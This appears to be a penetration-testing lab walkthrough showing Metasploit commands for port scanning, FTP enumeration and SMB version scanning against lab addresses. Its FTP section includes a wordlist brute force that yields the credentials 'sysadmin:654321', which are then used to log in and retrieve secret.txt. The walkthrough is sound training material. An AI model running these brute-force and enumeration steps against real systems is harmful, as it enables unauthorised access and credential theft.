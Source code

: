 You must have a session.

```
msf5> use auxiliary/scanner/portscan/tcp
msf5> set rhosts 192.81.84.3
msf5> run
```

The ports open on `192.81.84.3` are `21` `22` `80`.

### FTP enumeration

* We can use multiple auxiliary modules to enumerate information as well as perform brute-force attacks on the target running an FTP server.

```
john@attack> service postgresql start && msfconsole

msf5> workspace -a ftp_enum
msf5> use auxiliary/scanner/portscan/tcp
msf5> set rhosts 192.7.200.3
```

The port `192.7.200.3:21` is open.

```
msf5> search type:auxiliary name:ftp
msf5> use auxiliary/scanner/ftp/ftp_version
msf5> set rhosts 192.7.200.3
msf5> run
```

```
msf5> use auxiliary/scanner/ftp/ftp_login
msf5> set rhosts 192.7.200.3
msf5> set user_file /usr/share/metasploit-framework/data/wordlists/common_users.txt
msf5> set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
msf5> run
```

The FTP credentials are `sysadmin:654321`.

```bash
root@attackdefense> ftp 192.7.200.3  # sysadmin:654321

ftp> get secret.txt
ftp> bye

root@attackdefense> cat secret.txt
```

### SMB enumeration

* We can utilize auxiliary modules to enumerate the SMB version, shares, users and perform a brute-force attack in order to identify users and passwords.

```
root@attackdefense> service postgresql start && msfconsole

msf5> workspace -a smb_enum
msf5> setg rhosts 192.64.76.3
msf5> search type:auxiliary name:smb
msf5> use auxiliary/scanner/smb/smb_version
msf5> run
```

